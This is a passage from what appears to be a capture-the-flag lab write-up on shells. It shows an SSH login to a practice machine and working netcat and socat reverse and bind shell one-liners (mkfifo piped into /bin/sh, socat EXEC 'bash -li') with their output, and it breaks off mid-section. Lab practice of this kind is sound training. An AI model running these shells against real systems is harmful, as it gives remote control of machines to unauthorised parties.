     uid=33(www-data) gid=33(www-data) groups=33(www-data)                                                          
    /bin/sh: 0: can't access tty; job control turned off                                                           
    $ whoami
    www-data
    ```

#### Log into the Linux machine over SSH using the credentials in task 14. Use the techniques in Task 8 to experiment with bind and reverse netcat shells.
- Login over SSH.
    ```bash
    $ ssh shell@10.10.194.64
    ```
- Reverse Shell
    - Set up netcat listener on our machine.
        ```bash
        $ nc -lnvp 9999
        listening on [any] 9999 ...
        ```
    - Set up netcat reverse shell at the machine.
        ```bash
        shell@linux-shell-practice:~$ mkfifo /tmp/f; nc 10.11.25.205 9999 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
        ```
    - Got machine's shell!
        ```bash
        $ nc -lnvp 9999
        listening on [any] 9999 ...
        connect to [10.11.25.205] from (UNKNOWN) [10.10.194.64] 50546
        whoami
        shell
        ```
- Bind Shell
    - Set bind shell on the machine.
        ```bash
        shell@linux-shell-practice:~$ mkfifo /tmp/f; nc -lvnp 1234 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
        listening on [any] 1234 ...
        ```
    - Netcat the machine IP at port 1234 and we got shell!
        ```bash
        $ nc 10.10.194.64 1234                                                                                   1 ⨯
        whoami
        shell
        ```

#### Practice reverse and bind shells using Socat on the Linux machine. Try both the normal and special techniques.
- Normal Reverse Shell
    - SSH.
    - Open our socat listener at port 9999.
        ```bash
        $ socat TCP-L:9999 -
        ```
    - Run socat reverse shell that goes into our IP and socat port.
        ```bash
        shell@linux-shell-practice:~$ socat TCP:10.11.25.205:9999 EXEC:"bash -li"
        ```
    - Success! We gain the machine shell via Reverse Shell.
        ```bash
        # our linux